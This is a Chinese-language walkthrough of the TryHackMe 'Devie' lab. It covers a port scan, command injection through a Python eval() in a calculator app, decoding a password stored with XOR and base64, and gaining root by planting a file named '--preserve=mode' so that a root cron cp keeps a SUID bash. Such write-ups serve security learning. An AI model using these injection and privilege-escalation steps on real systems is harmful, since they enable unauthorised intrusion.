 ```yaml
---
sidebar_position: 154
tags: [Easy, Linux, 命令注入, 定时任务, 通佩符利用]
title: "Devie"
description: "Devie"
sidebar_label: "Devie"
slug: /tryhackme/154
---
```


# Devie

## 端口扫描

```bash
root@ip-10-10-231-42:~# nmap -sTCV -p 22,5000 --min-rate 1000 $IP

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-08 03:54 BST
Nmap scan report for ip-10-10-90-134.eu-west-1.compute.internal (10.10.90.134)
Host is up (0.000093s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Sun, 08 Oct 2023 02:55:01 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 4486
|     Connection: close
```

## 5000

访问我们的网站, 我们可以发现其是一个计算的网站, 并且从端口扫描的结果来看是一个 Python 的程序, 在网站底部我们可以看到它提供了网站的源代码, 我们将其下载下来进行分析, 我发现其中存在一个命令执行漏洞

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

对于上述代码, 在 `eval()` 函数处进行操作, 我们可以借此来执行命令, 因为无法进行明文的输出显示, 所以我借助 ICMP 进行操作

```python
__import__('os').system('ping 10.10.231.42')
```

![image-20240709190213244](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-190214.png)

## 后渗透

### bruce

使用上面的方式来获取一个 Shell

![image-20240709190337204](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-190338.png)

### bruce —> gordon

执行 SUDO 命令我们可以发现可以以 gordon 用户执行命令

![image-20240709190345292](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-190346.png)

但是可惜的是这个程序是用来加密的, 没有办法利用, 接着在 bruce 用户的家目录我发现一个 note 文件其中告诉我一些事情 

- 使用 XOR 加密并且进行 base64 编码
- 一个明文 : NEUEDTIeN1MRDg5K

```bash
(remote) bruce@devie:/home/bruce$ cat note 
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

接着我便利用 XOR 的一个原理, 进行一些解密的操作使用上面得到的密文进行编码, 然后使用编码出来的结果作为密文使用密文作为 key 进行解码 [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9+/=',true,false)XOR({'option':'UTF8','string':'NEUEDTIeN1MRDg5K'},'Standard',false)&input=UFRBbElEWW5MQVk4VkRrNUlSNU5KQT09) , 最终我获取到 XOR 加密的 Key 接着我对密文进行解密获取到了最终的明文, [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9+/=',true,false)XOR({'option':'UTF8','string':'supersecretkeyxo'},'Standard',false)&input=TkVVRURUSWVOMU1SRGc1Sw) 使用解密出来的明文作为用户 gordon 的密码, 我们就可以完成用户的窃取了

### gordon —> root

在用户的家目录进行搜索时发现一个特殊的事情 : backups 和 reports 的文件内容一样并且名称相同, 同时 backups 的程序是最新创建的, 所以我怀疑这里存在定时任务, 接着查找属于 gordon 用户的文件时, 我发现一个特殊的文件

```bash
(remote) bruce@devie:/home/bruce$ find / -user root -group gordon -ls 2>/dev/null
   403597      4 -rw-r-----   1 root     gordon        485 Aug  2  2022 /opt/encrypt.py
    12272      4 -rwxr-----   1 root     gordon         66 May 12  2022 /usr/bin/backup
   403598      4 -rw-r-----   1 root     gordon         21 Aug  2  2022 /home/gordon/flag2.txt
gordon@devie:~/backups$ cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```

结合 backups 下的文件都是 root 用户的, 所以我判断这便是定时任务的利用, 接着利用 cp 的通配符完成提权

```bash
gordon@devie:~/reports$ cp /bin/bash ./bash && chmod u+s ./bash && echo "" > "--preserve=mode"
gordon@devie:~/backups$ ls -al
total 1176
drwxrwx--- 2 gordon gordon    4096 Oct  8 04:47 .
drwxr-xr-x 4 gordon gordon    4096 Aug  2  2022 ..
-rwsr-xr-x 1 root   root   1183448 Oct  8 04:49 bash
-rw-r--r-- 1 root   root        57 Oct  8 04:49 report1
-rw-r--r-- 1 root   root        72 Oct  8 04:49 report2
-rw-r--r-- 1 root   root       100 Oct  8 04:49 report3
gordon@devie:~/backups$ ./bash -p
gordon@devie:~/backups# id
uid=1001(gordon) gid=1001(gordon) euid=0(root) groups=1001(gordon)
```